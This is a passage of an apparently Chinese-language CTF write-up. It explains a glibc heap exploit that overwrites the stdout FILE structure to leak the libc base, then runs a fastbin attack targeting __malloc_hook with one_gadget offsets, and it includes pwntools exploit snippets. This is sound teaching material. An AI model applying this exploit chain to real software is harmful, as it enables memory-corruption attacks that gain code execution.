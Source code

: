 [![](assets/1701612416-af2ed5fa4ef5f4847cf69a28e1ba8faa.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230627170313-721ba978-14c9-1.png)  
这个地址的后三位是固定的，倒数第四位是随机的，但是我们只能写两字节因此第四位必须要去爆破，在调试的时候关闭 ASLR 就无需爆破了。

```bash
add(0x60,11,b'\x00'*0x33+p64(0xfbad1887)+p64(0)*3+b'\x00')
```

然后 fake\_chunk 申请到 stdout 结构体上方后，我们去改变结构体的\_flags 字段和\_IO\_write\_base 字段 (偏移一定) 等再次调用 puts 函数的时候，我们就可以获取 libc 基地址了（需要注意的是将\_flags 字段改成 0xfbad1880，之后的 puts 都不会再加\\n了，因此要处理一下接收部分。不过用 0xfbad1887puts 都会再加\\n）

```bash
leak_libc=u64(p.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))
libc_base=leak_libc-0x3c5600
leak('libc_base ',libc_base)
malloc_hook=libc_base+libc.symbols['__malloc_hook']
leak('malloc_hook ',malloc_hook)
realloc=libc_base+libc.symbols['realloc']
ogs = [0x45226,0x4527a,0xf03a4,0xf1247]
og=libc_base+ogs[1]
leak('og ',og)
```

泄露完 libc\_base 后，直接打 fastbin attack 就行了

```bash
add(0x60,10,'a') 
delete(10)
edit(10,p64(malloc_hook-0x23))
```

[![](assets/1701612416-0ded8f0aa45e12240cb65c37cacc99d6.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230627170349-87bc1628-14c9-1.png)

